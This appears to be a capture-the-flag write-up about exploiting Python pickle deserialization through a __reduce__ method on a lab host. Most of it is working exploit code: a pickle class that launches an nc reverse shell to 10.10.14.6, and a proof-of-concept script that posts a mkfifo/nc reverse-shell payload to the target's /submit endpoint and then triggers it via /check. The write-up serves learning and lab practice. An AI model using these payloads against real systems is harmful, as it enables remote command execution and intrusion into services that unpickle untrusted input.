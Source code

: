 When application call function `cPickle.loads(data)`, the data will load from submited file before. Searching for Pickle vulnerability,

[Exploiting misuse of Python's "pickle"](https://blog.nelhage.com/2011/03/exploiting-pickle/) show how to inject shell code to function `__reduce__`

`pickle` allows arbitrary objects to declare how they should be pickled by defining a [\_\_reduce\_\_](https://docs.python.org/3/library/pickle.html#object.__reduce__) method, which should return either a string or a tuple describing how to reconstruct this object on unpacking. In the simplest form, that tuple should just contain

 * A callable (which must be either a class, or satisfy some other, odder, constraints), and
 * A tuple of arguments to call that callable on.

`pickle` will pickle each of these pieces separately, and then on unpickling, will call the callable on the provided arguments to construct the new object.

And so, we can construct a pickle that, when un-pickled, will execute reverse shell with nc, as follows:

``` python
import os, cPickle
import subprocess
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (os.system, ('nc -nv 10.10.14.6 443 -e /bin/sh',))

data = cPickle.dumps(RunBinSh())

print base64.b64encode(data)

item = cPickle.loads(data)
```

Quick poc exploit

``` python
import os, requests
import cPickle
from hashlib import md5

class exploit(object):
    def __reduce__(self):
        return (os.system, ('echo homer!; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f',))

url = "http://10.10.10.70"

data = cPickle.dumps(exploit())
char, quote = data.split('!')

#Sent payload
r = requests.post(url + "/submit", data={'character':char, 'quote':quote})

p_id = md5(char + quote).hexdigest()

#Trigger payload
r = requests.post(url + "/check", data={'id':p_id})
```
